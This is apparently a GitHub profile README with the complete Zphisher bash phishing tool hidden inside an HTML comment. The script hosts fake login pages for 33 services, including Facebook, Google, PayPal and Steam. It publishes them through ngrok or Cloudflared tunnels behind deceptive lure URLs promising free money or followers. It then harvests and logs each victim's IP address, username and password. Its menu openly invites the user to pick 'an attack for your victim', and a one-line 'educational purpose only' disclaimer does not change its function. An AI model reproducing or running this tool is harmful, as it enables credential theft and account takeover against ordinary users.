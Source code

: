 - 👋 Hi, I’m @spmahad
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---

#!/bin/bash

##   Zphisher 	: 	Automated Phishing Tool
##   Author 	: 	AHAD 
##   Version 	: 	2.2
##   Github 	: 	https://github.com/htr-tech

##   THANKS TO :
##   Aditya Shakya - https://github.com/adi1090x
##   1RaY-1 - https://github.com/1RaY-1
##   Moises Tapia - https://github.com/MoisesTapia
##   TheLinuxChoice - https://twitter.com/linux_choice
##   DarksecDevelopers  - https://github.com/DarksecDevelopers
##   Ignitetch  - https://github.com/Ignitetch/AdvPhishing
##   Võ Ngọc Bảo - https://github.com/vongocbao
##   Mustakim Ahmed - https://www.facebook.com/Learn.Termux.009


## If you Copy Then Give the credits :)



##                   GNU GENERAL PUBLIC LICENSE
##                    Version 3, 29 June 2007
##
##    Copyright (C) 2007 Free Software Foundation, Inc. <https://fsf.org/>
##    Everyone is permitted to copy and distribute verbatim copies
##    of this license document, but changing it is not allowed.
##
##                         Preamble
##
##    The GNU General Public License is a free, copyleft license for
##    software and other kinds of works.
##
##    The licenses for most software and other practical works are designed
##    to take away your freedom to share and change the works.  By contrast,
##    the GNU General Public License is intended to guarantee your freedom to
##    share and change all versions of a program--to make sure it remains free
##    software for all its users.  We, the Free Software Foundation, use the
##    GNU General Public License for most of our software; it applies also to
##    any other work released this way by its authors.  You can apply it to
##    your programs, too.
##
##    When we speak of free software, we are referring to freedom, not
##    price.  Our General Public Licenses are designed to make sure that you
##    have the freedom to distribute copies of free software (and charge for
##    them if you wish), that you receive source code or can get it if you
##    want it, that you can change the software or use pieces of it in new
##    free programs, and that you know you can do these things.
##
##    To protect your rights, we need to prevent others from denying you
##    these rights or asking you to surrender the rights.  Therefore, you have
##    certain responsibilities if you distribute copies of the software, or if
##    you modify it: responsibilities to respect the freedom of others.
##
##    For example, if you distribute copies of such a program, whether
##    gratis or for a fee, you must pass on to the recipients the same
##    freedoms that you received.  You must make sure that they, too, receive
##    or can get the source code.  And you must show them these terms so they
##    know their rights.
##
##    Developers that use the GNU GPL protect your rights with two steps:
##    (1) assert copyright on the software, and (2) offer you this License
##    giving you legal permission to copy, distribute and/or modify it.
##
##    For the developers' and authors' protection, the GPL clearly explains
##    that there is no warranty for this free software.  For both users' and
##    authors' sake, the GPL requires that modified versions be marked as
##    changed, so that their problems will not be attributed erroneously to
##    authors of previous versions.
##
##    Some devices are designed to deny users access to install or run
##    modified versions of the software inside them, although the manufacturer
##    can do so.  This is fundamentally incompatible with the aim of
##    protecting users' freedom to change the software.  The systematic
##    pattern of such abuse occurs in the area of products for individuals to
##    use, which is precisely where it is most unacceptable.  Therefore, we
##    have designed this version of the GPL to prohibit the practice for those
##    products.  If such problems arise substantially in other domains, we
##    stand ready to extend this provision to those domains in future versions
##    of the GPL, as needed to protect the freedom of users.
##
##    Finally, every program is threatened constantly by software patents.
##    States should not allow patents to restrict development and use of
##    software on general-purpose computers, but in those that do, we wish to
##    avoid the special danger that patents applied to a free program could
##    make it effectively proprietary.  To prevent this, the GPL assures that
##    patents cannot be used to render the program non-free.
##
##    The precise terms and conditions for copying, distribution and
##    modification follow.
##
##      Copyright (C) 2021  HTR-TECH (https://github.com/htr-tech)
##


## ANSI colors (FG & BG)
RED="$(printf '\033[31m')"  GREEN="$(printf '\033[32m')"  ORANGE="$(printf '\033[33m')"  BLUE="$(printf '\033[34m')"
MAGENTA="$(printf '\033[35m')"  CYAN="$(printf '\033[36m')"  WHITE="$(printf '\033[37m')" BLACK="$(printf '\033[30m')"
REDBG="$(printf '\033[41m')"  GREENBG="$(printf '\033[42m')"  ORANGEBG="$(printf '\033[43m')"  BLUEBG="$(printf '\033[44m')"
MAGENTABG="$(printf '\033[45m')"  CYANBG="$(printf '\033[46m')"  WHITEBG="$(printf '\033[47m')" BLACKBG="$(printf '\033[40m')"
RESETBG="$(printf '\e[0m\n')"

## Directories
if [[ ! -d ".server" ]]; then
	mkdir -p ".server"
fi
if [[ -d ".server/www" ]]; then
	rm -rf ".server/www"
	mkdir -p ".server/www"
else
	mkdir -p ".server/www"
fi
if [[ -e ".cld.log" ]]; then
	rm -rf ".cld.log"
fi

## Script termination
exit_on_signal_SIGINT() {
    { printf "\n\n%s\n\n" "${RED}[${WHITE}!${RED}]${RED} Program Interrupted." 2>&1; reset_color; }
    exit 0
}

exit_on_signal_SIGTERM() {
    { printf "\n\n%s\n\n" "${RED}[${WHITE}!${RED}]${RED} Program Terminated." 2>&1; reset_color; }
    exit 0
}

trap exit_on_signal_SIGINT SIGINT
trap exit_on_signal_SIGTERM SIGTERM

## Reset terminal colors
reset_color() {
	tput sgr0   # reset attributes
	tput op     # reset color
    return
}

## Kill already running process
kill_pid() {
	if [[ `pidof php` ]]; then
		killall php > /dev/null 2>&1
	fi
	if [[ `pidof ngrok` ]]; then
		killall ngrok > /dev/null 2>&1
	fi
	if [[ `pidof cloudflared` ]]; then
		killall cloudflared > /dev/null 2>&1
	fi
}

## Banner
banner() {
	cat <<- EOF
		${ORANGE}
		${ORANGE} ______      _     _     _               
		${ORANGE}|___  /     | |   (_)   | |              
		${ORANGE}   / / _ __ | |__  _ ___| |__   ___ _ __ 
		${ORANGE}  / / | '_ \| '_ \| / __| '_ \ / _ \ '__|
		${ORANGE} / /__| |_) | | | | \__ \ | | |  __/ |   
		${ORANGE}/_____| .__/|_| |_|_|___/_| |_|\___|_|   
		${ORANGE}      | |                                
		${ORANGE}      |_|                ${RED}Version : 2.2
		${GREEN}[${WHITE}-${GREEN}]${CYAN} Tool Created by htr-tech (tahmid.rayat)${WHITE}
	EOF
}

## Small Banner
banner_small() {
	cat <<- EOF
		${BLUE}
		${BLUE}  ░▀▀█░█▀█░█░█░▀█▀░█▀▀░█░█░█▀▀░█▀▄
		${BLUE}  ░▄▀░░█▀▀░█▀█░░█░░▀▀█░█▀█░█▀▀░█▀▄
		${BLUE}  ░▀▀▀░▀░░░▀░▀░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀░▀${WHITE} 2.2
	EOF
}

## Dependencies
dependencies() {
	echo -e "\n${GREEN}[${WHITE}+${GREEN}]${CYAN} Installing required packages..."

    if [[ -d "/data/data/com.termux/files/home" ]]; then
        if [[ `command -v proot` ]]; then
            printf ''
        else
			echo -e "\n${GREEN}[${WHITE}+${GREEN}]${CYAN} Installing package : ${ORANGE}proot${CYAN}"${WHITE}
            pkg install proot resolv-conf -y
        fi
    fi

	if [[ `command -v php` && `command -v wget` && `command -v curl` && `command -v unzip` ]]; then
		echo -e "\n${GREEN}[${WHITE}+${GREEN}]${GREEN} Packages already installed."
	else
		pkgs=(php curl wget unzip)
		for pkg in "${pkgs[@]}"; do
			type -p "$pkg" &>/dev/null || {
				echo -e "\n${GREEN}[${WHITE}+${GREEN}]${CYAN} Installing package : ${ORANGE}$pkg${CYAN}"${WHITE}
				if [[ `command -v pkg` ]]; then
					pkg install "$pkg" -y
				elif [[ `command -v apt` ]]; then
					apt install "$pkg" -y
				elif [[ `command -v apt-get` ]]; then
					apt-get install "$pkg" -y
				elif [[ `command -v pacman` ]]; then
					sudo pacman -S "$pkg" --noconfirm
				elif [[ `command -v dnf` ]]; then
					sudo dnf -y install "$pkg"
				else
					echo -e "\n${RED}[${WHITE}!${RED}]${RED} Unsupported package manager, Install packages manually."
					{ reset_color; exit 1; }
				fi
			}
		done
	fi

}

## Download Ngrok
download_ngrok() {
	url="$1"
	file=`basename $url`
	if [[ -e "$file" ]]; then
		rm -rf "$file"
	fi
	wget --no-check-certificate "$url" > /dev/null 2>&1
	if [[ -e "$file" ]]; then
		unzip "$file" > /dev/null 2>&1
		mv -f ngrok .server/ngrok > /dev/null 2>&1
		rm -rf "$file" > /dev/null 2>&1
		chmod +x .server/ngrok > /dev/null 2>&1
	else
		echo -e "\n${RED}[${WHITE}!${RED}]${RED} Error occured, Install Ngrok manually."
		{ reset_color; exit 1; }
	fi
}

## Download Cloudflared
download_cloudflared() {
	url="$1"
	file=`basename $url`
	if [[ -e "$file" ]]; then
		rm -rf "$file"
	fi
	wget --no-check-certificate "$url" > /dev/null 2>&1
	if [[ -e "$file" ]]; then
		mv -f "$file" .server/cloudflared > /dev/null 2>&1
		chmod +x .server/cloudflared > /dev/null 2>&1
	else
		echo -e "\n${RED}[${WHITE}!${RED}]${RED} Error occured, Install Cloudflared manually."
		{ reset_color; exit 1; }
	fi
}

## Install ngrok
install_ngrok() {
	if [[ -e ".server/ngrok" ]]; then
		echo -e "\n${GREEN}[${WHITE}+${GREEN}]${GREEN} Ngrok already installed."
	else
		echo -e "\n${GREEN}[${WHITE}+${GREEN}]${CYAN} Installing ngrok..."${WHITE}
		arch=`uname -m`
		if [[ ("$arch" == *'arm'*) || ("$arch" == *'Android'*) ]]; then
			download_ngrok 'https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip'
		elif [[ "$arch" == *'aarch64'* ]]; then
			download_ngrok 'https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm64.zip'
		elif [[ "$arch" == *'x86_64'* ]]; then
			download_ngrok 'https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip'
		else
			download_ngrok 'https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip'
		fi
	fi

}

## Install Cloudflared
install_cloudflared() {
	if [[ -e ".server/cloudflared" ]]; then
		echo -e "\n${GREEN}[${WHITE}+${GREEN}]${GREEN} Cloudflared already installed."
	else
		echo -e "\n${GREEN}[${WHITE}+${GREEN}]${CYAN} Installing Cloudflared..."${WHITE}
		arch=`uname -m`
		if [[ ("$arch" == *'arm'*) || ("$arch" == *'Android'*) ]]; then
			download_cloudflared 'https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-arm'
		elif [[ "$arch" == *'aarch64'* ]]; then
			download_cloudflared 'https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-arm64'
		elif [[ "$arch" == *'x86_64'* ]]; then
			download_cloudflared 'https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-amd64'
		else
			download_cloudflared 'https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-386'
		fi
	fi

}

## Exit message
msg_exit() {
	{ clear; banner; echo; }
	echo -e "${GREENBG}${BLACK} Thank you for using this tool. Have a good day.${RESETBG}\n"
	{ reset_color; exit 0; }
}

## About
about() {
	{ clear; banner; echo; }
	cat <<- EOF
		${GREEN}Author   ${RED}:  ${ORANGE}TAHMID RAYAT ${RED}[ ${ORANGE}HTR-TECH ${RED}]
		${GREEN}Github   ${RED}:  ${CYAN}https://github.com/htr-tech
		${GREEN}Social   ${RED}:  ${CYAN}https://linktr.ee/tahmid.rayat
		${GREEN}Version  ${RED}:  ${ORANGE}2.2
		${REDBG}${WHITE} Thanks : Adi1090x,MoisesTapia,ThelinuxChoice
								  DarkSecDevelopers,Mustakim Ahmed,1RaY-1 ${RESETBG}
		${RED}Warning:${WHITE}
		${CYAN}This Tool is made for educational purpose only ${RED}!${WHITE}
		${CYAN}Author will not be responsible for any misuse of this toolkit ${RED}!${WHITE}
		${RED}[${WHITE}00${RED}]${ORANGE} Main Menu     ${RED}[${WHITE}99${RED}]${ORANGE} Exit
	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	case $REPLY in 
		99)
			msg_exit;;
		0 | 00)
			echo -ne "\n${GREEN}[${WHITE}+${GREEN}]${CYAN} Returning to main menu..."
			{ sleep 1; main_menu; };;
		*)
			echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
			{ sleep 1; about; };;
	esac
}

## Setup website and start php server
HOST='127.0.0.1'
PORT='8080'

setup_site() {
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Setting up server..."${WHITE}
	cp -rf .sites/"$website"/* .server/www
	cp -f .sites/ip.php .server/www/
	echo -ne "\n${RED}[${WHITE}-${RED}]${BLUE} Starting PHP server..."${WHITE}
	cd .server/www && php -S "$HOST":"$PORT" > /dev/null 2>&1 & 
}

## Get IP address
capture_ip() {
	IP=$(grep -a 'IP:' .server/www/ip.txt | cut -d " " -f2 | tr -d '\r')
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Victim's IP : ${BLUE}$IP"
	echo -ne "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}ip.txt"
	cat .server/www/ip.txt >> ip.txt
}

## Get credentials
capture_creds() {
	ACCOUNT=$(grep -o 'Username:.*' .server/www/usernames.txt | cut -d " " -f2)
	PASSWORD=$(grep -o 'Pass:.*' .server/www/usernames.txt | cut -d ":" -f2)
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Account : ${BLUE}$ACCOUNT"
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Password : ${BLUE}$PASSWORD"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}usernames.dat"
	cat .server/www/usernames.txt >> usernames.dat
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Next Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit. "
}

## Print data
capture_data() {
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit..."
	while true; do
		if [[ -e ".server/www/ip.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Victim IP Found !"
			capture_ip
			rm -rf .server/www/ip.txt
		fi
		sleep 0.75
		if [[ -e ".server/www/usernames.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Login info Found !!"
			capture_creds
			rm -rf .server/www/usernames.txt
		fi
		sleep 0.75
	done
}

## Start ngrok
start_ngrok() {
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Initializing... ${GREEN}( ${CYAN}http://$HOST:$PORT ${GREEN})"
	{ sleep 1; setup_site; }
	echo -ne "\n\n${RED}[${WHITE}-${RED}]${GREEN} Launching Ngrok..."

    if [[ `command -v termux-chroot` ]]; then
        sleep 2 && termux-chroot ./.server/ngrok http "$HOST":"$PORT" > /dev/null 2>&1 & # Thanks to Mustakim Ahmed (https://github.com/BDhackers009)
    else
        sleep 2 && ./.server/ngrok http "$HOST":"$PORT" > /dev/null 2>&1 &
    fi

	{ sleep 8; clear; banner_small; }
	ngrok_url=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[-0-9a-z]*\.ngrok.io")
	ngrok_url1=${ngrok_url#https://}
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} URL 1 : ${GREEN}$ngrok_url"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} URL 2 : ${GREEN}$mask@$ngrok_url1"
	capture_data
}


## DON'T COPY PASTE WITHOUT CREDIT DUDE :')

## Start Cloudflared
start_cloudflared() { 
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Initializing... ${GREEN}( ${CYAN}http://$HOST:$PORT ${GREEN})"
	{ sleep 1; setup_site; }
	echo -ne "\n\n${RED}[${WHITE}-${RED}]${GREEN} Launching Cloudflared..."

    if [[ `command -v termux-chroot` ]]; then
		sleep 2 && termux-chroot ./.server/cloudflared tunnel -url "$HOST":"$PORT" --logfile .cld.log > /dev/null 2>&1 &
    else
        sleep 2 && ./.server/cloudflared tunnel -url "$HOST":"$PORT" --logfile .cld.log > /dev/null 2>&1 &
    fi

	{ sleep 8; clear; banner_small; }
	
	cldflr_link=$(grep -o 'https://[-0-9a-z]*\.trycloudflare.com' ".cld.log")
	cldflr_link1=${cldflr_link#https://}
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} URL 1 : ${GREEN}$cldflr_link"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} URL 2 : ${GREEN}$mask@$cldflr_link1"
	capture_data
}

## Start localhost
start_localhost() {
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Initializing... ${GREEN}( ${CYAN}http://$HOST:$PORT ${GREEN})"
	setup_site
	{ sleep 1; clear; banner_small; }
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Successfully Hosted at : ${GREEN}${CYAN}http://$HOST:$PORT ${GREEN}"
	capture_data
}

## Tunnel selection
tunnel_menu() {
	{ clear; banner_small; }
	cat <<- EOF
		${RED}[${WHITE}01${RED}]${ORANGE} Localhost    ${RED}[${CYAN}For Devs${RED}]
		${RED}[${WHITE}02${RED}]${ORANGE} Ngrok.io     ${RED}[${CYAN}Buggy${RED}]
		${RED}[${WHITE}03${RED}]${ORANGE} Cloudflared  ${RED}[${CYAN}NEW!${RED}]
	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select a port forwarding service : ${BLUE}"

	case $REPLY in 
		1 | 01)
			start_localhost;;
		2 | 02)
			start_ngrok;;
		3 | 03)
			start_cloudflared;;
		*)
			echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
			{ sleep 1; tunnel_menu; };;
	esac
}

## Facebook
site_facebook() {
	cat <<- EOF
		${RED}[${WHITE}01${RED}]${ORANGE} Traditional Login Page
		${RED}[${WHITE}02${RED}]${ORANGE} Advanced Voting Poll Login Page
		${RED}[${WHITE}03${RED}]${ORANGE} Fake Security Login Page
		${RED}[${WHITE}04${RED}]${ORANGE} Facebook Messenger Login Page
	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	case $REPLY in 
		1 | 01)
			website="facebook"
			mask='http://blue-verified-badge-for-facebook-free'
			tunnel_menu;;
		2 | 02)
			website="fb_advanced"
			mask='http://vote-for-the-best-social-media'
			tunnel_menu;;
		3 | 03)
			website="fb_security"
			mask='http://make-your-facebook-secured-and-free-from-hackers'
			tunnel_menu;;
		4 | 04)
			website="fb_messenger"
			mask='http://get-messenger-premium-features-free'
			tunnel_menu;;
		*)
			echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
			{ sleep 1; clear; banner_small; site_facebook; };;
	esac
}

## Instagram
site_instagram() {
	cat <<- EOF
		${RED}[${WHITE}01${RED}]${ORANGE} Traditional Login Page
		${RED}[${WHITE}02${RED}]${ORANGE} Auto Followers Login Page
		${RED}[${WHITE}03${RED}]${ORANGE} 1000 Followers Login Page
		${RED}[${WHITE}04${RED}]${ORANGE} Blue Badge Verify Login Page
	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	case $REPLY in 
		1 | 01)
			website="instagram"
			mask='http://get-unlimited-followers-for-instagram'
			tunnel_menu;;
		2 | 02)
			website="ig_followers"
			mask='http://get-unlimited-followers-for-instagram'
			tunnel_menu;;
		3 | 03)
			website="insta_followers"
			mask='http://get-1000-followers-for-instagram'
			tunnel_menu;;
		4 | 04)
			website="ig_verify"
			mask='http://blue-badge-verify-for-instagram-free'
			tunnel_menu;;
		*)
			echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
			{ sleep 1; clear; banner_small; site_instagram; };;
	esac
}

## Gmail/Google
site_gmail() {
	cat <<- EOF
		${RED}[${WHITE}01${RED}]${ORANGE} Gmail Old Login Page
		${RED}[${WHITE}02${RED}]${ORANGE} Gmail New Login Page
		${RED}[${WHITE}03${RED}]${ORANGE} Advanced Voting Poll
	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	case $REPLY in 
		1 | 01)
			website="google"
			mask='http://get-unlimited-google-drive-free'
			tunnel_menu;;		
		2 | 02)
			website="google_new"
			mask='http://get-unlimited-google-drive-free'
			tunnel_menu;;
		3 | 03)
			website="google_poll"
			mask='http://vote-for-the-best-social-media'
			tunnel_menu;;
		*)
			echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
			{ sleep 1; clear; banner_small; site_gmail; };;
	esac
}

## Vk
site_vk() {
	cat <<- EOF
		${RED}[${WHITE}01${RED}]${ORANGE} Traditional Login Page
		${RED}[${WHITE}02${RED}]${ORANGE} Advanced Voting Poll Login Page
	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	case $REPLY in 
		1 | 01)
			website="vk"
			mask='http://vk-premium-real-method-2020'
			tunnel_menu;;
		2 | 02)
			website="vk_poll"
			mask='http://vote-for-the-best-social-media'
			tunnel_menu;;
		*)
			echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
			{ sleep 1; clear; banner_small; site_vk; };;
	esac
}

## Menu
main_menu() {
	{ clear; banner; echo; }
	cat <<- EOF
		${RED}[${WHITE}::${RED}]${ORANGE} Select An Attack For Your Victim ${RED}[${WHITE}::${RED}]${ORANGE}
		${RED}[${WHITE}01${RED}]${ORANGE} Facebook      ${RED}[${WHITE}11${RED}]${ORANGE} Twitch       ${RED}[${WHITE}21${RED}]${ORANGE} DeviantArt
		${RED}[${WHITE}02${RED}]${ORANGE} Instagram     ${RED}[${WHITE}12${RED}]${ORANGE} Pinterest    ${RED}[${WHITE}22${RED}]${ORANGE} Badoo
		${RED}[${WHITE}03${RED}]${ORANGE} Google        ${RED}[${WHITE}13${RED}]${ORANGE} Snapchat     ${RED}[${WHITE}23${RED}]${ORANGE} Origin
		${RED}[${WHITE}04${RED}]${ORANGE} Microsoft     ${RED}[${WHITE}14${RED}]${ORANGE} Linkedin     ${RED}[${WHITE}24${RED}]${ORANGE} DropBox	
		${RED}[${WHITE}05${RED}]${ORANGE} Netflix       ${RED}[${WHITE}15${RED}]${ORANGE} Ebay         ${RED}[${WHITE}25${RED}]${ORANGE} Yahoo		
		${RED}[${WHITE}06${RED}]${ORANGE} Paypal        ${RED}[${WHITE}16${RED}]${ORANGE} Quora        ${RED}[${WHITE}26${RED}]${ORANGE} Wordpress
		${RED}[${WHITE}07${RED}]${ORANGE} Steam         ${RED}[${WHITE}17${RED}]${ORANGE} Protonmail   ${RED}[${WHITE}27${RED}]${ORANGE} Yandex			
		${RED}[${WHITE}08${RED}]${ORANGE} Twitter       ${RED}[${WHITE}18${RED}]${ORANGE} Spotify      ${RED}[${WHITE}28${RED}]${ORANGE} StackoverFlow
		${RED}[${WHITE}09${RED}]${ORANGE} Playstation   ${RED}[${WHITE}19${RED}]${ORANGE} Reddit       ${RED}[${WHITE}29${RED}]${ORANGE} Vk
		${RED}[${WHITE}10${RED}]${ORANGE} Tiktok        ${RED}[${WHITE}20${RED}]${ORANGE} Adobe        ${RED}[${WHITE}30${RED}]${ORANGE} XBOX
		${RED}[${WHITE}31${RED}]${ORANGE} Mediafire     ${RED}[${WHITE}32${RED}]${ORANGE} Gitlab       ${RED}[${WHITE}33${RED}]${ORANGE} Github
		${RED}[${WHITE}99${RED}]${ORANGE} About         ${RED}[${WHITE}00${RED}]${ORANGE} Exit
	EOF
	
	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	case $REPLY in 
		1 | 01)
			site_facebook;;
		2 | 02)
			site_instagram;;
		3 | 03)
			site_gmail;;
		4 | 04)
			website="microsoft"
			mask='http://unlimited-onedrive-space-for-free'
			tunnel_menu;;
		5 | 05)
			website="netflix"
			mask='http://upgrade-your-netflix-plan-free'
			tunnel_menu;;
		6 | 06)
			website="paypal"
			mask='http://get-500-usd-free-to-your-acount'
			tunnel_menu;;
		7 | 07)
			website="steam"
			mask='http://steam-500-usd-gift-card-free'
			tunnel_menu;;
		8 | 08)
			website="twitter"
			mask='http://get-blue-badge-on-twitter-free'
			tunnel_menu;;
		9 | 09)
			website="playstation"
			mask='http://playstation-500-usd-gift-card-free'
			tunnel_menu;;
		10)
			website="tiktok"
			mask='http://tiktok-free-liker'
			tunnel_menu;;
		11)
			website="twitch"
			mask='http://unlimited-twitch-tv-user-for-free'
			tunnel_menu;;
		12)
			website="pinterest"
			mask='http://get-a-premium-plan-for-pinterest-free'
			tunnel_menu;;
		13)
			website="snapchat"
			mask='http://view-locked-snapchat-accounts-secretly'
			tunnel_menu;;
		14)
			website="linkedin"
			mask='http://get-a-premium-plan-for-linkedin-free'
			tunnel_menu;;
		15)
			website="ebay"
			mask='http://get-500-usd-free-to-your-acount'
			tunnel_menu;;
		16)
			website="quora"
			mask='http://quora-premium-for-free'
			tunnel_menu;;
		17)
			website="protonmail"
			mask='http://protonmail-pro-basics-for-free'
			tunnel_menu;;
		18)
			website="spotify"
			mask='http://convert-your-account-to-spotify-premium'
			tunnel_menu;;
		19)
			website="reddit"
			mask='http://reddit-official-verified-member-badge'
			tunnel_menu;;
		20)
			website="adobe"
			mask='http://get-adobe-lifetime-pro-membership-free'
			tunnel_menu;;
		21)
			website="deviantart"
			mask='http://get-500-usd-free-to-your-acount'
			tunnel_menu;;
		22)
			website="badoo"
			mask='http://get-500-usd-free-to-your-acount'
			tunnel_menu;;
		23)
			website="origin"
			mask='http://get-500-usd-free-to-your-acount'
			tunnel_menu;;
		24)
			website="dropbox"
			mask='http://get-1TB-cloud-storage-free'
			tunnel_menu;;
		25)
			website="yahoo"
			mask='http://grab-mail-from-anyother-yahoo-account-free'
			tunnel_menu;;
		26)
			website="wordpress"
			mask='http://unlimited-wordpress-traffic-free'
			tunnel_menu;;
		27)
			website="yandex"
			mask='http://grab-mail-from-anyother-yandex-account-free'
			tunnel_menu;;
		28)
			website="stackoverflow"
			mask='http://get-stackoverflow-lifetime-pro-membership-free'
			tunnel_menu;;
		29)
			site_vk;;
		30)
			website="xbox"
			mask='http://get-500-usd-free-to-your-acount'
			tunnel_menu;;
		31)
			website="mediafire"
			mask='http://get-1TB-on-mediafire-free'
			tunnel_menu;;
		32)
			website="gitlab"
			mask='http://get-1k-followers-on-gitlab-free'
			tunnel_menu;;
		33)
			website="github"
			mask='http://get-1k-followers-on-github-free'
			tunnel_menu;;
		99)
			about;;
		0 | 00 )
			msg_exit;;
		*)
			echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
			{ sleep 1; main_menu; };;
	
	esac
}

## Main
kill_pid
dependencies
install_ngrok
install_cloudflared
main_menu

